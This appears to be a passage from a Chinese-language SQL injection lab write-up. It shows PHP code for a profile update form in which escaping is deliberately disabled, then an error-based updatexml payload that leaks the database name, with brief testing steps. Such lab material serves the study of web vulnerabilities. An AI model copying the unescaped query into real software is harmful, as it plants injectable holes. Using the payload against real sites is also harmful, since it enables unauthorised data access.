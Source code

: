 ```php

        }
    }else{
        $html.="<p>必填项不能为空哦</p>";
    }
}
```

## Update注入

**服务端核心代码**

```php
if(isset($_POST['submit'])){
    if($_POST['sex']!=null && $_POST['phonenum']!=null && $_POST['add']!=null && $_POST['email']!=null){
//        $getdata=escape($link, $_POST);

        //未转义,形成注入,sql操作类型为update
        $getdata=$_POST;
        $query="update member set sex='{$getdata['sex']}',phonenum='{$getdata['phonenum']}',address='{$getdata['add']}',email='{$getdata['email']}' where username='{$_SESSION['sqli']['username']}'";
        $result=execute($link, $query);
        if(mysqli_affected_rows($link)==1 || mysqli_affected_rows($link)==0){
            header("location:sqli_mem.php");
        }else {
            $html1.='修改失败,请重试';

        }
    }
}
```

payload:
```
kite' or updatexml(1,concat(0x7e,database()),0) or'
```


**漏洞测试**

在用户注册的必填项两处：用户输入单引号，密码随意，页面报错信息，说明该页面存在注入漏洞。

